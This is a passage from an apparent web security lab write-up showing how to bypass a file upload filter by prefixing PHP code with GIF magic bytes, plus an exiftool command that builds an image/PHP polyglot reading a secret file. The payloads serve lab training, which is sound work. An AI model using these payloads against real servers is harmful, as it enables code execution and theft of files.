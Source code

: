 Next, search for GIF on the wiki website and copy its magic characters.

![image](https://github.com/user-attachments/assets/47781e55-0786-428c-b26c-3bd462a47be3)

As you can see, the server accepted the **GIF magic bytes**, allowing us to bypass its file upload security mechanisms. By placing the correct **magic number** at the beginning of the file (i.e., `GIF89a`), we made the server believe that the uploaded file was a legitimate image, even though it contained embedded PHP code.

![image](https://github.com/user-attachments/assets/08b417e6-ca26-4892-b45c-5697e38f7a93)


To exploit this, I crafted a file starting with the GIF header, followed by the PHP payload:

```php
GIF89a
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
![image](https://github.com/user-attachments/assets/d9c8a815-3b07-4281-bd1c-71e5fd4ec5ba)

Result:

![image](https://github.com/user-attachments/assets/1a7ad7ba-b43a-402e-83df-f48f76950562)

> 💡 **Note:** We can also use `exiftool` to embed our PHP payload into an image file as a comment, creating a **polyglot file** — one that appears to be a valid image but is also executable PHP code.

To do this, we use the following command:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.png -o polyglot.php
```

Submit the key to solve the lab.

![image](https://github.com/user-attachments/assets/fac1e00d-d4b9-4318-904a-b253b892b16e)

